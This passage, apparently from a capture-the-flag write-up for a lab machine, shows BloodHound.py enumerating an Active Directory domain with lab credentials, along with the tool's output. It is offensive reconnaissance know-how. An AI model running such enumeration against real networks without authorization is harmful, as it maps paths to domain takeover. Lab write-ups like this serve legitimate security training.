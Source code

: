 **ingesting AD**

[BloodHound.py](https://github.com/fox-it/BloodHound.py) is a Python based ingestor for BloodHound which reads data from Active Directory and create a database which can be read from BloodHound.
```bash
pip install bloodhound
```

Running 
```bash
❯ bloodhound-python -ns 10.10.10.248 -d intelligence.htb -u 'Ted.Graves' -p 'Mr.Teddy' -c all
INFO: Found AD domain: intelligence.htb
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 42 users
INFO: Found 54 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: svc_int.intelligence.htb
INFO: Querying computer: dc.intelligence.htb
INFO: Skipping enumeration for svc_int.intelligence.htb since it could not be resolved.
INFO: Done in 01M 10S
```

Start BloodHound and load all json file created by bloodhound-python ingestor

And here is the shortest path to the DOMAIN.
